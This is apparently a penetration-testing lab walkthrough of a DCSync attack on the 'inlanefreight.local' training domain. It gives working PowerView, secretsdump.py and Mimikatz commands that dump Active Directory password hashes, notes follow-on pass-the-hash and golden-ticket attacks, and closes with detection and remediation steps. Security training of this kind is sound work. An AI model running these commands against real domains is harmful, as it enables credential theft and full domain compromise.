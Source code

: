 #### **Objective:**

Leverage **DCSync** privileges on the `adunn` account to extract **Active Directory password hashes** for full domain compromise.


DCSync is an attack technique that abuses the **Directory Replication Service Remote Protocol (DRSR)** to **mimic a Domain Controller (DC)** and request **password hashes** for all users in the domain.

**Prerequisites:**

- **Replicating Directory Changes** and **Replicating Directory Changes All** permissions.
- Domain/Enterprise Admins have this right by default, but **misconfigured accounts** (like `adunn`) may also have it.

---

### 1. Checking DCSync Privileges**

#### **Confirming `adunn`'s Membership & Privileges**

Using **PowerView** to check **group membership**:
```powershell
Get-DomainUser -Identity adunn | select samaccountname,objectsid,memberof,useraccountcontrol | fl
```

Verifying **DCSync privileges**:
```powershell
$sid = Convert-NameToSid "adunn" 
Get-ObjectAcl "DC=inlanefreight,DC=local" -ResolveGUIDs | ? { ($_.ObjectAceType -match 'Replication-Get')} | ?{$_.SecurityIdentifier -match $sid} | select AceQualifier, ObjectDN, ActiveDirectoryRights, SecurityIdentifier, ObjectAceType | fl
```

If the output includes **DS-Replication-Get-Changes-All**, then the user can execute a **DCSync attack**.

### **3. Extracting Hashes Using DCSync**

#### **Method 1: Using `secretsdump.py` (Linux)**
```bash
secretsdump.py -outputfile inlanefreight_hashes -just-dc INLANEFREIGHT/adunn@172.16.5.5
```
Extracts **NTLM password hashes** and **Kerberos keys** from `ntds.dit`.

**Filtering Options:**
- `-just-dc-ntlm` → Extract only NTLM hashes.
- `-just-dc-user <USERNAME>` → Extract a single user’s hash.
- `-pwd-last-set` → View last password change time.
- `-history` → Dump password history.

### **4. Extracting Hashes Using Mimikatz (Windows)**

**Step 1: Run PowerShell as `adunn`**
```powershell
runas /netonly /user:INLANEFREIGHT\adunn powershell
```
Step 2: Launch Mimikatz
```powershell
.\mimikatz.exe
privilege::debug
```
Perform **DCSync attack**:
```powershell
lsadump::dcsync /domain:INLANEFREIGHT.LOCAL /user:INLANEFREIGHT\administrator
```

---
### Implications & Next Steps

**Full Domain Compromise:**  
With the **NTLM hash** of the **Administrator** account, an attacker can:

- **Pass-the-Hash (PtH) attack** to gain immediate admin access.
- **Golden Ticket attack** for **permanent** backdoor access.
- **Kerberos Silver Ticket attacks** to bypass authentication.

**Remediation Recommendations:**

1. **Monitor AD for `Event ID 4662` and `Event ID 5136`** to detect unauthorized replication requests.
2. **Restrict Replication Permissions** to **only** Domain Controllers.
3. **Enable Advanced Auditing** to track replication requests.
4. **Monitor and rotate privileged account passwords** regularly.
5. **Deploy Windows Defender Credential Guard** to block credential dumping.